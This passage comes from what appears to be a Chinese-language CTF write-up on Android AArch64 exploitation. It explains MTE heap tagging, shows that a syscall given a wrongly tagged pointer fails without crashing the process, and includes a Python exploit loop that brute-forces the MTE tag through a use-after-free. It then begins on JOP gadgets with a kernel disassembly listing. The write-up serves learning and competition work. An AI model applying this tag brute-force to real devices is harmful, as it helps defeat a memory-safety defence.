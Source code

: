 在堆分配器中，malloc后，通过对申请的堆地址打上标签返回，free后对堆地址重新打标签。这样就能阻止UAF这类的漏洞，因为free后指针重新打了标签，导致UAF残留的指针无效，通过UAF的指针访问内存时就会崩溃。不同的堆分配器在malloc和free时有着不同的处理内存标签的方式。 有关内存分配器处理MTE标签的分析可以参考文章GeekCon的文章[填补盾牌的裂缝：堆分配器中的MTE](https://www.darknavy.org/zh/blog/strengthening_the_shield_mte_in_memory_allocators/)。

#### 7.3 MTE爆破

如果给系统调用直接传一个带有错误TAG的指针，会发生什么？如图，假设buf指向的内存已经被free导致重新打标签，现在传给Sys_write的是一个无效的指针。

 ![](/attachments/2025-1-15-androi/87b46715-67e9-4873-a1dd-70546260a4ae.png)

单步进入会触发内核的`Error EL1h`

 ![](/attachments/2025-1-15-androi/092ea538-9609-44ae-99e6-254362d09849.png)

错误会被`el0t_64_sync`函数捕捉处理。

 ![](/attachments/2025-1-15-androi/0fda7686-450a-48ef-ad1f-821a369f7a04.png)

异常处理会调用`el0_svc`函数，并不会退出程序。

 ![](/attachments/2025-1-15-androi/fb1a3455-42f2-4f60-bed9-f5bfcc1c92ec.png)

异常处理完成后，调用`ret_to_user`返回到了用户态。

 ![](/attachments/2025-1-15-androi/c19f827e-861c-4a45-89e1-416517447172.png)

可见，当一个不正确的MTE指针进入系统调用，系统调用执行不成功，同时进程不会崩溃；我们可以利用这种特性来对TAG值进行爆破。一般的，我们在用户态利用UAF漏洞时，在已知指针值但是不知道TAG，我们可以用这样的方法爆破

```python
#我们想泄漏leak_ptr_addr地址处的数据，但是这段内存的TAG不知道是多少？
#guess tag

for i in range(0x10):
   #fake 31 Node struct
   edit(0,b'a'*0x8 + p32(0x8) + p32(0) + p64((i << 56) + leak_ptr_addr) + b'\n')
   show(31) #调用Sys_write
   sh.recv(1)
   leak_value = u64(sh.recv(8)) #如果Sys_write调用成功，会有预期的数据
   if leak_value & 0xFF == 0xdc: #判断是否有预期的数据
      print('found TAG=',hex(i))
      break
```

上述代码来源于我在`GeekCon Shanghai 2024`上解出的MTE题的EXP。

### 八、AARCH64 JOP

在AARCH64中，`RET`指令不会从栈里弹出返回地址进行返回，`RET`指令直接跳转到`X30`寄存器指向的地址；而BLR指令在跳入新函数时，会将返回地址赋值给`X30`寄存器。由于这个特性，我们在搜索一些`gadgets`指令时，无需考虑`BLR`后面的代码。

在做GeekCon的`kSysRace`赛题时，我们控制了一个地方的函数指针，能够调用任意一个函数，以及X0执行的内容可控：

```clike
.text:FFFFFF80080DB354                 LDR             X8, [X19,#0x98]
.text:FFFFFF80080DB358                 LDR             X25, [X19,#0xB8]
.text:FFFFFF80080DB35C                 MOV             X23, X0
.text:FFFFFF80080DB360                 MOV             X0, X19
.text:FFFFFF80080DB364                 BLR             X8
.............
.............
.text:FFFFFF80080DB420 loc_FFFFFF80080DB420                    ; CODE XREF: handle_128+118↑j
.text:FFFFFF80080DB420                 LDP             X29, X30, [SP,#0x40+var_s0]
.text:FFFFFF80080DB424                 LDP             X20, X19, [SP,#0x40+var_10]
.text:FFFFFF80080DB428                 LDP             X22, X21, [SP,#0x40+var_20]
.text:FFFFFF80080DB42C                 LDP             X24, X23, [SP,#0x40+var_30]
.text:FFFFFF80080DB430                 LDR             X25, [SP+0x40+var_40],#0x50
.text:FFFFFF80080DB434                 RET
```